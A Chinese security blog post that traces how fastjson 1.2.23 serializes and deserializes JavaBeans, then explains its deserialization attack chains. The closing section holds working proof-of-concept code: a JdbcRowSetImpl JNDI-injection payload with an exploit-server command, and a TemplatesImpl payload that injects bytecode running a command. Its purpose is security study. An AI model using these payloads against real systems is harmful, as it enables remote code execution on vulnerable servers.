

## 前言

我以前是一个后端开发者，在我使用`fastjson`的期间，我对他只有浅薄的认知，就是高性能Java用来做JSON处理的库，我并没有考虑过为什么它能做到高性能，直到最近调试了一下`fastjson`的代码。发现其中的开发思路还是非常值得借鉴的。我觉得最好玩的是它使用了`ASM动态字节码技术`在运行时处理`JavaBean`对象，这样就能避免使用反射技术，从而提高性能。

关于`fastjson`的漏洞，网上有非常多的帖子，我是先做了一些关于`fastjson`的代码调试之后又来看网上的一些帖子的。这让我发现了一些问题，我所看到的`fastjson`代码逻辑和网上一些理论稍微有些对不上，或者说是网上一些帖子讲的有点过于浅显了，他们忽略了非常多的重点内容，如果你阅读了相关的帖子，你深入思考后可能会遇到以下这些疑问：

1. 在`JdbcRowSetImpl`利用链中，`dataSourceName`和`autoCommit`的字段位置可以替换吗？
2. 为什么`TemplatesImpl`中，这些字段：`_name`、`_bytecodes`、`_tfactory`、`_outputProperties`都没有`setter`方法，却能被触发
3. 属性`Feature.SupportNonPublicField`做了什么事，为什么`TemplatesImpl`利用链必须要使用这个属性？
4. 为什么`_bytecodes`是base64编码后的字符串，为什么`TemplatesImpl`却能正常处理这个base64编码后的字符串呢？

通过我自己的调试，我调试了`fastjson`中的较为重要的处理逻辑，这些逻辑可以解决你的大部分疑问，这些处理逻辑在`代码分析`中我都会写的，希望能帮助你们更好的理解：

1. 当使用`parse/parseObject`处理普通的`JavaBean`时，`fastjson`会使用`ASMDeserializer`字节码技术来调用`setter/默认构造`方法
2. `fastjson`会顺序解析`JSON字符串`中定义的值，比如`{"field1":11,"field2":22}`，会先调用`setField1`，再调用`setField2`
3. 当一个字段是`public`的，`fastjson`会直接访问该字段值。但该字段有`setter`方法时，使用`setter`方法来调用。
4. 当一个setter方法是`非public`的，`fastjson`默认不会调用该方法
5. 当`Bean`中的字段有`getter`方法，同时该方法的返回值是`Collection`、`Map`、`AtomicBoolean`、`AtomicInteger`、`AtomicLong`中的任意一种类型，同时该字段没有`setter`方法，则会认为该字段为`readOnly`，只使用`JavaBeanDeserializer`
6. 如果一个字段是`readOnly`的，那么该类将不会使用`ASMDeserializer`
7. 当设置属性`Feature.SupportNonPublicField`时会使用`反射技术`来直接访问字段，而不使用`setter`方法
8. 属性`Feature.SupportNonPublicField`只在普通`JavaBeanDeserializer`中生效，在`ASMDeserializer`中不生效

这里还推荐我看到的一些关于`fastjson`漏洞利用技巧的一些`github`仓库。嗯~，还是挺推荐的，可以用来涨姿势，例如：[fastjson利用姿势大全](https://github.com/lemono0/FastJsonParty)

### 简介

**Fastjson** 是阿里巴巴开源的 **Java JSON 解析库**，专门用于 **JSON 数据的序列化和反序列化**。它以 **高性能**、**易用性** 和 **灵活性** 著称，被广泛应用于 Java 开发中，尤其是在 Web 开发、RPC 框架和大数据处理等场景。

Fastjson的安全漏洞最早是在 **2017 年**被公开披露的，涉及**反序列化漏洞**，可导致**远程代码执行（RCE）**。关于`Fastjson`的安全对抗一直持续了多年......

* 2017 年，研究人员发现`Fastjson1.2.23 及之前版本` 存在`autoType`反序列化漏洞，可以构造恶意 JSON 触发远程代码执行
* 2019年，研究人员发现`Fastjson1.2.47`及更早版本仍然可以绕过 `autoType` 限制，导致 RCE 攻击
* 2020年，在`1.2.60`及之前的版本，可通过特定 Java 类（如 `java.net.Inet4Address`）绕过 `autoType` 限制，导致远程代码执行
* 2022年，`Fastjson1.2.80` 及之前版本 `autoType` 仍存在新的绕过方式，可以利用特定 Java 类进行 RCE
* 之后，`Fastjson 2.0.0+` 版本 进行了安全架构重构，采用更严格的白名单策略，默认仅允许部分基础类型反序列化

本篇文章的序列化、攻击链部分我会以fastjson的1.2.23版本来说明，在`fastjson`版本利用部分中会分别使用不同的`fastjson`版本，分析后续`fastjson`做了哪些安全措施以及这些安全补丁是如何被绕过的。

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.23</version>
</dependency>
```


## 代码分析(1.2.23)

fastjson中提供了JSON的序列化和反序列化方法，下边通过一个简单的Demo来分析一下`fastjson`中的序列化/反序列化代码。

### Demo

```java
package fastjson_labs.examples;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.util.Date;

public class User {

    private String name;

    private Integer age;

    private Date registerDate;

    public User() { }

    public User(String name, Integer age, Date registerDate){
        this.name = name;
        this.age = age;
        this.registerDate = registerDate;
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public Date getRegisterDate() {
        System.out.println("getRegisterDate");
        return registerDate;
    }

    public void setRegisterDate(Date registerDate) {
        System.out.println("setRegisterDate");
        this.registerDate = registerDate;
    }

    public Integer getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(Integer age) {
        System.out.println("setAge");
        this.age = age;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", registerDate=" + registerDate +
                '}';
    }

    public static void main(String[] args) {
        User user1 = new User("管理员", 26, new Date());

        System.out.println("---------toJSONString序列化User---------");
        String json1 = JSON.toJSONString(user1);
        System.out.println(json1);

        System.out.println("---------toJSONString WriteClassName序列化User---------");
        String json2 = JSON.toJSONString(user1, SerializerFeature.WriteClassName);
        System.out.println(json2);

        System.out.println("---------parse反序列化User---------");
        Object parse = JSON.parse(json2);
        System.out.println(parse);

        System.out.println("---------parseObject反序列化JSONObject---------");
        JSONObject jsonObject = JSON.parseObject(json2);
        System.out.println(jsonObject);
    }
}
```

运行这份代码会产生以下结果，根据结果的不同我们来分析一下`fastjson`的底层处理逻辑。


### 序列化

序列化的方法只有一个就是`JSON.toJSONString(Object obj)`，但是这个方法中通过传递一个`SerializerFeature.WriteClassName`参数，使得最终输出结果中多了一个`"@type":"fastjson_labs.examples.User"`，你应该也能猜出来`SerializerFeature.WriteClassName`参数的效果其实就是输出一个特殊`@type`字段，将序列化类的全类名写入到该字段中。

然后我们看一下`toJSONString`这个方法是怎么工作的。我们先看一下其中一个

```java
String json1 = JSON.toJSONString(user1);

public static String toJSONString(Object object) {
    return toJSONString(object, emptyFilters);
}

public static String toJSONString(Object object, SerializeFilter[] filters, SerializerFeature... features) {
    return toJSONString(object, SerializeConfig.globalInstance, filters, null, DEFAULT_GENERATE_FEATURE, features);
}

public static String toJSONString(Object object, SerializeConfig config, SerializeFilter[] filters, // 
                                  String dateFormat, int defaultFeatures, SerializerFeature... features) {
    SerializeWriter out = new SerializeWriter(null, defaultFeatures, features);
    try {
        JSONSerializer serializer = new JSONSerializer(out, config);
        if (dateFormat != null && dateFormat.length() != 0) {
            serializer.setDateFormat(dateFormat);
            serializer.config(SerializerFeature.WriteDateUseDateFormat, true);
        }
        if (filters != null) {
            for (SerializeFilter filter : filters) {
                serializer.addFilter(filter);
            }
        }
        serializer.write(object);
        return out.toString();
    } finally {
        out.close();
    }
}

```

然后看一下另一个写入类名的`toJSONString(Object obj, SerializerFeature... features)`方法：

```java
String json2 = JSON.toJSONString(user1, SerializerFeature.WriteClassName);

public static String toJSONString(Object object, SerializerFeature... features) {
    return toJSONString(object, DEFAULT_GENERATE_FEATURE, features);
}

public static String toJSONString(Object object, int defaultFeatures, SerializerFeature... features) {
    SerializeWriter out = new SerializeWriter((Writer) null, defaultFeatures, features);

    try {
        JSONSerializer serializer = new JSONSerializer(out);
        serializer.write(object);
        return out.toString();
    } finally {
        out.close();
    }
}
```

看起来好像就只是关于`SerializeWriter`和`JSONSerializer`的配置不同，最终都是调用了`JSONSerializer.write(object)`方法。

我们调试跟踪一下看看这个方法中干了什么。

从toJSONString中能看到一个`static members of JSON`，这里定义了很多的静态字段，其中一个是上边我们的Demo序列化时见到的`@type`，这个字段叫`DEFAULT_TYPE_KEY`，emmmm，看起来就是写入ClassName的一个默认key。


然后继续跟踪里边的代码。这里会通过`Class<User>`来再次获取一个`ObjectSerializer`的一个实现类，然后再调用这个类的write方法。


看起来`ObjectSerializer.write`是最终的序列化方法，但是我还是比较好奇`getObjectWriter`方法中干了什么，跟进去看一下。


额，会来到`SerializeConfig`中的这里，然后这里边有非常多的类检查代码，大概意思就是比如我的参数`clazz`是SPI实现类，或者是JDK中的内部类又、Spring中的类、是否是List、Collection这些的，总之就是对特殊类有一些特殊的处理方式。


如果是类似于`User`这样自定义的JavaBean对象，则会调用`createJavaBeanSerializer`。


这里还会处理所有字段中的注解，不得不说，开发的时候考虑的东西确实是很多的。

```java
// 处理所有的字段属性中的注解
if (asm) {
    for(FieldInfo field : beanInfo.fields){
        JSONField annotation = field.getAnnotation();
        if (annotation == null) {
            continue;
        }
        if ((!ASMUtils.checkName(annotation.name())) //
                || annotation.format().length() != 0
                || annotation.jsonDirect()
                || annotation.serializeUsing() != Void.class
                ) {
            asm = false;
            break;
        }
    }
}
```

然后就会调用一个`createASMSeriablizer`方法，从这个方法中大概就是获取到JavaBean中的一些信息，类似于字段名、字段的getter方法、以及其他的一些属性。


我一直跟到了这个地方，我勒个去，怪不得说fastjson的效率高，原来是通过ASM动态字节码来实现的Class处理啊，这样处理字段的时候就不需要反射调用了，这个代码写的还是挺好理解的，非常牛批。


然后回到刚才的`ObjectSerializer.write`方法。因为上一步的`writer`是动态字节码，所以这里是无法调试的，但是这个也没那么重要了。序列化的过程大概就是这个样子的，我这里也没看到哪里具体使用了`typeKey`字段，只是知道在`SerializeConfig`中有这个字段。


### 反序列化(parse)

先看`parse`这个方法的反序列化过程吧。

```java
System.out.println("---------parse反序列化User---------");
Object parse = JSON.parse(json2);
System.out.println(parse);

public static Object parse(String text) {
    return parse(text, DEFAULT_PARSER_FEATURE);
}

public static Object parse(String text, int features) {
    if (text == null) {
        return null;
    }
    // 这里创建了一个JSON的解析器
    DefaultJSONParser parser = new DefaultJSONParser(text, ParserConfig.getGlobalInstance(), features);
    // 调用解析方法
    Object value = parser.parse();
    parser.handleResovleTask(value);
    parser.close();
    return value;
}
```

这个Default解析器中的关键代码是这样的：

```java
public DefaultJSONParser(final String input, final ParserConfig config, int features){
	this(input, new JSONScanner(input, features), config);
}

public JSONScanner(String input, int features) {
    super(features); // 调用父类 LexerBase 的构造方法，存储 features 解析配置

    text = input;    // 存储 JSON 文本
    len = text.length(); // 记录文本长度
    bp = -1; // 指向解析位置（buffer position）

    next(); // 读取第一个字符
    if (ch == 65279) { // 如果是 UTF-8 BOM 头，则跳过
        next();
    }
}

public final char next() {
    int index = ++bp;
    return ch = (index >= this.len ? //
        EOI //
        : text.charAt(index));
}
// 构造方法中初始化了lexer的token,其实就是{ 、[这种对象闭合字符
public DefaultJSONParser(final Object input, final JSONLexer lexer, final ParserConfig config){
    this.lexer = lexer;
    this.input = input;
    this.config = config;
    this.symbolTable = config.symbolTable;

    int ch = lexer.getCurrent();
    if (ch == '{') {
        lexer.next();
        ((JSONLexerBase) lexer).token = JSONToken.LBRACE;
    } else if (ch == '[') {
        lexer.next();
        ((JSONLexerBase) lexer).token = JSONToken.LBRACKET;
    } else {
        lexer.nextToken(); // prime the pump
    }
}
```

然后来到`parse`方法中，在`DefaultJSONParser`构造方法中已经识别到`{`，也就是`JSONToken.LBRACKET`这个，然后会调用到`parseObject`方法中。


来到parseObject中的核心方法中，前边都是在处理JSON字符串的字符，比如`{`、`:`、`"`，这种的字符，然后开始解析字段的`key`，这里有一个if判断，如果`key==@type && 没有禁用@type`就执行这个if判断中的代码。


通过`TypeUtils.loadClass`拿到`@type`中定义的Class对象，比如这里就是`Class<fastjson_labs.examples.User>`类。


回到`DefaultJSONParse.parseObject`方法中，一路debug会来到这里`ParserConfig.getDeserializer`。


代码调用是这样的：

```java
public ObjectDeserializer getDeserializer(Type type) {
    ObjectDeserializer derializer = this.derializers.get(type);
    if (derializer != null) {
        return derializer;
    }

    if (type instanceof Class<?>) {
        // 因为type当前是Class<User>，所以会命中这里
        return getDeserializer((Class<?>) type, type);
    }
    // ......
}

public ObjectDeserializer getDeserializer(Class<?> clazz, Type type) {
    ObjectDeserializer derializer = derializers.get(type);
    if (derializer != null) {
        return derializer;
    }

    if (type == null) {
        type = clazz;
    }
    // ......
    // 这里省略一大段类型检测、注解检测的代码

    if (clazz.isEnum()) {
        //.......
    }//.......
    else{
        // 最终会调用到这里
        derializer = createJavaBeanDeserializer(clazz, type);
    }

    putDeserializer(type, derializer);
    return derializer;
}

public ObjectDeserializer createJavaBeanDeserializer(Class<?> clazz, Type type) {
    //.......
    try {
        // 会执行到这里，这里和序列化一样会创建一个基于ASM的Deserializer处理类
        return asmFactory.createJavaBeanDeserializer(this, beanInfo);
        // } catch (VerifyError e) {
        // e.printStackTrace();
        // return new JavaBeanDeserializer(this, clazz, type);
    } catch (NoSuchMethodException ex) {
        return new JavaBeanDeserializer(this, clazz, type);
    } catch (JSONException asmError) {
        return new JavaBeanDeserializer(this, beanInfo);
    } catch (Exception e) {
        throw new JSONException("create asm deserializer error, " + clazz.getName(), e);
    }
}
// 这里使用ASM创建基于ASM的Deserializer处理类
public ObjectDeserializer createJavaBeanDeserializer(ParserConfig config, JavaBeanInfo beanInfo) throws Exception {
    Class<?> clazz = beanInfo.clazz;
        if (clazz.isPrimitive()) {
            throw new IllegalArgumentException("not support type :" + clazz.getName());
        }

        String className = "FastjsonASMDeserializer_" + seed.incrementAndGet() + "_" + clazz.getSimpleName();
        String packageName = ASMDeserializerFactory.class.getPackage().getName();
        String classNameType = packageName.replace('.', '/') + "/" + className;
        String classNameFull = packageName + "." + className;

        ClassWriter cw = new ClassWriter();
        cw.visit(V1_5, ACC_PUBLIC + ACC_SUPER, classNameType, type(JavaBeanDeserializer.class), null);
    // ......
}
```

然后回到`DefaultJSONParser`中，我们知道现在的`ObjectDeserializer`是个ASM的实现类，然后继续看看他是怎么做后续操作的。


好吧，已经跟不下去了，因为这里是使用`ASMDeserializerFactory`动态创建出来的ASM处理类，这个`deserialze`处理类定义在`ASMDeserializerFactory._deserialze(ClassWriter cw, Context context)`中，看的大概意思就是分别处理方法中的所有字段。


可以看到在这个类中针对不同的字段进行了处理。 


上边这个Demo是非常标准的`JavaBean`，你一定能理解并能独立构造`JdbcRowSetImpl`这条攻击链了，但你肯定无法构造出`TemplatesImpl`这条链的攻击代码。

这是因为`TemplatesImpl`中的字段非常复杂，而按照`fastjson`中的现有已知逻辑你无法通过简单的`getter/setter`调用来设置对应的值，但`fastjson`有一些额外逻辑能满足构造的需求。让我们来改一下类中的内容，这将会触发`fastjson`中的不同的机制，从而触发我们想要的逻辑。

### 其他Demo

学会了`Demo1`和`Demo2`，你一定能够理解`TemplatesImpl`这条攻击链。

#### Demo1

我这里给的Demo1在被`fastjson`反序列化时有以下特点：

1. `_age`字段类型的`getter方法`变成了Map类型，`fastjson`会将其作为特殊的`method`来做额外处理
2. 如果已经满足了`条件1`，那么同时`_age`字段又只有`getter方法`，而没有`setter方法`，`fastjson`会使用`JavaBeanDeserializer`
3. 如果满足`条件1`和`条件2`，在`JavaBeanDeserializer`包含了一个`FieldDeserializer`其中就包含了`_age`字段的getter方法，最终该`getter方法`将会被调用，`fastjson`中的代码是`method.invoke(object)`。其中method对应着`getAge`。

```java
package fastjson_labs.examples;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

import java.util.Date;
import java.util.HashMap;
import java.util.Map;

public class User {

    private String _realName;
    private Map<String,String> _age;
    private Date registerDate;
    public User() {
        System.out.println("User: " + this);
    }

    public User(String name, Map age, Date registerDate){
        this._realName = name;
        this._age = age;
        this.registerDate = registerDate;
        System.out.println("User(String,Map,Date): " + this);
    }

    public String getName() {
        System.out.println("getName: " + this);
        return _realName;
    }

    public void setName(String name) {
        this._realName = name;
        System.out.println("setName: " + this);
    }

    public Date getRegisterDate() {
        System.out.println("getRegisterDate: " + this);
        return registerDate;
    }

    public void setRegisterDate(Date registerDate) {
        this.registerDate = registerDate;
        System.out.println("setRegisterDate: " + this);
    }

    public Map<String, String> getAge() {
        System.out.println("getAge: " + this);
        return _age;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + _realName + '\'' +
                ", age=" + _age +
                ", registerDate=" + registerDate +
                '}';
    }

    public static void main(String[] args) {
        String json = "{\"@type\":\"fastjson_labs.examples.User\",\"_age\":{\"age1\":\"123\"},\"name\":\"管理员\",\"registerDate\":1741575048946}";
        Object parse = JSON.parse(json);
        System.out.println(parse);
    }
}
```


#### Demo2

Demo2在Demo1的基础上有了以下奇特现象。

1. 我的字段`_realName`字段按理来说连`setter`方法都没有啊，那它怎么直接又修改了这个字段的值呢？是反射修改吧！
2. 我想要修改`readOnly`的`_age`字段，但是却发现无法被修改，反而调用了`_age`字段的`getAge`方法，说好的直接反射修改呢？

```java
package fastjson_labs.examples;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

import java.util.Date;
import java.util.HashMap;
import java.util.Map;

public class User {

    private String _realName;
    private Map<String,String> _age;
    private Date registerDate;
    public User() {
        System.out.println("User: " + this);
    }

    public User(String name, Map age, Date registerDate){
        this._realName = name;
        this._age = age;
        this.registerDate = registerDate;
        System.out.println("User(String,Map,Date): " + this);
    }

    public String getName() {
        System.out.println("getName: " + this);
        return _realName;
    }

    public void setName(String name) {
        this._realName = name;
        System.out.println("setName: " + this);
    }

    public Date getRegisterDate() {
        System.out.println("getRegisterDate: " + this);
        return registerDate;
    }

    public void setRegisterDate(Date registerDate) {
        this.registerDate = registerDate;
        System.out.println("setRegisterDate: " + this);
    }

    public Map<String, String> getAge() {
        System.out.println("getAge: " + this);
        return _age;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + _realName + '\'' +
                ", age=" + _age +
                ", registerDate=" + registerDate +
                '}';
    }

    public static void main(String[] args) {
        String json = "{\"@type\":\"fastjson_labs.examples.User\",\"_age\":{\"age1\":\"123\"},\"_realName\":\"管理员\",\"registerDate\":1741575048946}";
        Object parse = JSON.parse(json, Feature.SupportNonPublicField);
        System.out.println(parse);
    }
}
```


#### Demo3

这个其实就是`fastjson`针对于byte数组做的特殊优化，就是把byte数组做了一层`base64`处理，然后再加上数组独有的`[]`标识。

```java
package fastjson_labs.examples;

import com.alibaba.fastjson.JSON;
import java.util.Base64;

public class User {
	public static void main(String[] args) {
        byte[] bytes = new byte[]{0x01, 0x02, 0x03, 0x04};

        String base64Bytes = Base64.getEncoder().encodeToString(bytes);
        System.out.println(base64Bytes);

        String json1 = JSON.toJSONString(bytes);
        System.out.println(json1);

        byte[][] bytesArray = new byte[][]{bytes};
        String json2 = JSON.toJSONString(bytesArray);
        System.out.println(json2);

    }
}
```

运行一下，哎嘿想不到吧，fastjson把byte数组转了一次base64编码。


### 反序列化(Demo2)

我这里直接调试Demo2中的代码为例了，因为这个更具有代表性。

前边的步骤和`普通JavaBean`都是一样的，所以就不过多调试了，让我们直接在`ParserConfig.createJavaBeanDeserializer`方法里直接打一个断点，然后debug运行User的main方法，断点就会在这个方法中。


一直往下跟进代码，会命中`JavaBeanInfo.build`这个方法这里，然后进入到该方法中，该方法中大概就是处理了很多注解、字段、方法等等的，反正还挺复杂的，该兴趣的话可以看一看。


在获取`getter`方法的地方打一个断点，但是这里会获取`User`类中的所有方法，所以我们需要找到`method=getAge`的地方，如下：


然后往下debug，最终它会命中`Map.class.isAssignableFrom(method.getReturnType())`这一条语句，这是因为`getAge`的返回类型确实是Map。

这里的逻辑可以看到符合`Collection`、`Map`、`AtomicBoolean`、`AtomicInteger`、`AtomicLong`这几种类型的都会进入这个if语句中。


一直往下走，会来到`add(fieldList, new FieldInfo(propertyName, method, null,xxxxxx......))`这里


这里的重点是`new FieldInfo()`这里，我们点进去，看这个`FieldInfo`中的逻辑。


然后一直往下跟，此时初始化`getOnly=false`，紧接着会来到一个if判断中，其中method此时是`getAge`所以不为null，同时`getAge`中是没有参数的，所以`if ((types = method.getParameterTypes()).length == 1)`这个条件也是不满足的。


在执行完上边的代码执行，这个method就被 标记为了`getOnly=true`，其实也就是`readOnly`只读的意思。


然后在`JavaBeanInfo.build`方法的最后一行打一个断点，然后直接跳转到下一个断点就能来到末尾了，然后这里new了一个`JavaBeanInfo`对象，其中`fieldList`中包含了3个字段，同时`age`字段和其他的有点不一样 ，点开可以看到`getOnly=true`。


然后继续回到上一层调用中，下边有一个for循环遍历，其中有一个判断是，如果有任何一个字段的`getOnly=true`，就会把`asmEnable置为false`。


因为前边`asmEnable=false`了，所以就命中了这里的逻辑，也就是`return new JavaBeanDeserializer(this, clazz, type);`我们跟进去看看。


来到这个地方，可以看到这里就是又获取了刚才的那些`FieldList`，只是在此基础上又稍加处理了以下。注意哈，这里的三个字段的处理器都变成了`FieldDeserializer`。


此时处理该类(User)的`ObjectDeserializer`就创建好了，我们一路跟进就能来到一开始的入口点，以前我们获取到的是`ASMDeserializer`，那个因为是动态字节码所以是无法调试的，现在因为获取到的是一个`JavaBeanDeserializer`，这玩意儿就能调试了，我们跟进去看一下。


我推荐你直接在`JavaBeanDeserializer.deserialze`方法中，然后一直debug会 来到

`deserialze(DefaultJSONParser parser,Type type,Object fieldName,Object object,int features)`中，这里边就是处理了不同的JSON值，关键的地方在这里。有一个`parseField`，跟进去。


hhhhhh，这有个非常熟悉的字段对吧。就是`Feature.SupportNonPublicField`，但是这里咱先不管他。`_age`字段是不会触发这个属性的相关内容的（因为age字段有`getter/setter方法`


因为目前命中的是`_age`字段，此时因为获取到了`getAge`方法，所以`fieldDeserializer == null`就是不满足的所以会一直跳转来到`fieldDeserializer.parseField`。接着跟进去debug


来到这个方法中。


这个方法的大概意思是，我想尝试获取这个字段的`fieldValueDeserilizer`，通过这个玩意儿来获取字段值。然后判断这个字段值是否是`JavaBean`，很显然是不满足的，所以来到了else代码块中然后通过`fieldValueDeserilizer.deserialze`就把JSON中的值取出来了，因为这里传的是一个Map，所以这里反序列化出来的也是Map，之后会执行`setValue`代码。


接着往下跟代码，这里先是取出来了`getAge`这个getter方法，然后就调用了这个方法......


通过我们在`getAge`方法中打印的相关日志信息，也可以发现触发了`getAge`方法。


现在我们已经知道啦，有一个字段是`readOnly`或者说是`getOnly`的，那么就会调用该字段的`getter方法`。

接着我们在此来到`JavaBeanDeserializer.deserialze`


然后继续来到那个重点方法中，因为`_realName`字段没有对应的`getter/setter`方法，此时获取到的`fieldDeserializer==null`，同时我们又开启了`Feature.SupportNonPublicField`，所以使得最终结果为true，就来到了`if`语句内部。


这里会创建一个新的`FieldInfo`，同时会为该字段设置访问权限，也就是`field.setAccessible(true);`


最终还是会调用到`setValue`这个方法中，然后debug跟进去看下。



因为`method==null`，也就是根据`_realName`是无法找到有效的`getRealName`或`setRealName`方法。

同时因为该`field`并不是`getOnly`的，因为他甚至连`getter`方法都没有，所以就会直接访问该字段进行赋值。


现在你已经清楚`fasstjson`中的几乎所有的核心代码了，现在还差一个就是需要看一下`fastjson`是如何处理`byte[]数组`的，因为在构造`TemplatesImpl`链的时候，需要我们我们写入反序列化的`_bytecodes`的字节数组的值。

### 反序列化(Demo3)

运行`Demo3`，我们只需要调试关注字节数组即可，而无须关注其他代码，所以我这里直接给重点代码了。通过调试可以发现当处理字节数组时，会获取到一个`PrimitiveArraySerializer`处理器，然后调用`PrimitiveArraySerializer.write`方法


在`write`方法中针对不同的数组类型会做不同的处理，如果是`byte[]类型`就调用`writeByteArray`方法。


这个方法中的代码就是把数组进行Base64编码，只不过加了一些逻辑，比如在数据的前后两边加入`'`、`"`这样的包括字符啥的。


到这里所有的核心代码几乎就分析完毕了，反序列化的其实就是和这个一样的，只是base64的decode过程罢了。

### 反序列化(parseObject)

网上还有人说这个和`parse`的区别，额，其实关于这个`fastjson`就写了一行代码，就是把`Object`强转成`JSONObject`，`JSONObject`是一个处理JSON更加灵活的类，提供了很多好用的方法。


### 总结

现在分析完了fastjson中的代码可以来小总结一下了。

**下边提到的目标指的是：@type:fastjson_labs.examples.User**

我们看看第一种调用情况，也就是普通`JavaBean`的调用情况：

1. 调用目标的默认构造方法
2. 调用目标中字段的setter方法

有了以上的两条理论，我们就能手动构造`JDBCRowSetImpl`这条攻击链了。

然后是特殊`JavaBean`的情况：

1. 开启Feature.SupportNonPublicField
2. 目标中有`readOnly`的字段（此时不使用ASM动态字节码技术
3. 目标的默认构造方法
4. 如果对应字段有setter方法，则调用对应的setter方法
5. 如果对应字段没有setter方法，则通过反射方式直接修改字段的值
6. 如果对应字段是`readOnly`的，则会调用`FieldInfo`中存储的方法，也就是`getter`方法

有了上边的几条结论，我们就能手动构造`TemplatesImpl`这条攻击链了。

## 攻击链

最主要的三条攻击链就是`JDBCRowSetImpl`、`TemplatesImpl`、`BCEL`，其中`JDBCRowSetImpl`因为需要通过连接外部的JNDI服务器才能完成注入攻击，所以网上一般叫这种为必须出网利用的攻击，而`TemplatesImpl`和`BCEL`都是无须再次访问外部服务器即可远程代码执行的攻击链。

### JDBCRowSetImpl

**要求：JDK8u191**

这条攻击链的详情参考我的这篇文章：[JdbcRowSetImpl]()

主要就是利用@type将其改为`JDBCRowSetImpl`，然后构造`datasourceName`字段，最后设置字段`autoCommit=true`，最终触发JNDI注入。

因为fastjson是按照JSON中的顺序来调用对应的setter方法的，我们只要在JSON字符串中先定义`dataSourceName`的值，然后再定义`autoCommit`的值。这样就能让其先触发`setDatasourceName`，然后再触发`setAutoCommit`，这样就符合攻击链的触发逻辑了。

要注意，因为`JdbcRowSetImpl`实际上是在打JNDI注入，而JNDI中常用的ldap和rmi在高版本JDK中被禁用了，禁用关系如下：


所以这需要JDK8u191以下的版本才能够比较好的利用。

我这里直接使用JNDI注入的利用工具了：[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)，在cmd中启动这个利用工具：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [ip]

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A "127.0.0.1"
```

POC如下：

```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
public class JdbcRowTest {
    public static void main(String[] args) throws Exception {
// {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/n6vwxw","autoCommit":false}
        JSON.parse("{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1389/n6vwxw\"," +
                "\"autoCommit\":false}");
    }
}
```


为什么可以攻击成功？

1. @type指定目标类为：`com.sun.rowset.JdbcRowSetImpl`
2. 先设置了`dataSourceName`字段为`ldap://127.0.0.1:1389/n6vwxw`，触发`setDataSourceName`方法
3. 设置`autoCommit`的值，使得触发`setAutoCommit`方法，又因`dataSourceName`此时不为空触发`connect()`方法，从而导致JNDI注入

### TemplatesImpl

这条链非常简单也非常好用，攻击链详情参考我的这篇文章：[详解TemplatesImpl](../详解TemplatesImpl/main.md)

主要就是利用@type将其改为`JDBCRowSetImpl`，构造`TemplatesImpl`中的字段，然后通过触发`getOutputPropertis`方法来任意代码执行，代码如下：

```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;

public class TemplatesImplTest {
    public static void main(String[] args) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        CtClass evil = classPool.makeClass("Pwner");
        CtClass superC = classPool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);
        String className = "Erosion-" + System.nanoTime();
        evil.setName(className);
        evil.makeClassInitializer().insertBefore("Runtime.getRuntime().exec(\"calc\");");
        byte[] bytecode = evil.toBytecode();
        String jsonString = JSON.toJSONString(new byte[][]{bytecode});
        String payload = "{" +
                "\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_name\":\"EvilObj\"," +
                "\"_bytecodes\":" + jsonString + "," +
                "\"_tfactory\":{ }," +
                "\"_outputProperties\":{ }" +
                "}";
        JSON.parse(payload, Feature.SupportNonPublicField);
    }
}

```


为什么可以攻击成功？

1. @type指定目标类为：`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
2. 设置`Feature.SupportNonPublicField`属性
3. 按顺序设置`_name`、`_bytecodes`、`_tfactory`，这三个字段的值，因为没有`setter方法`，所以都是反射写入的
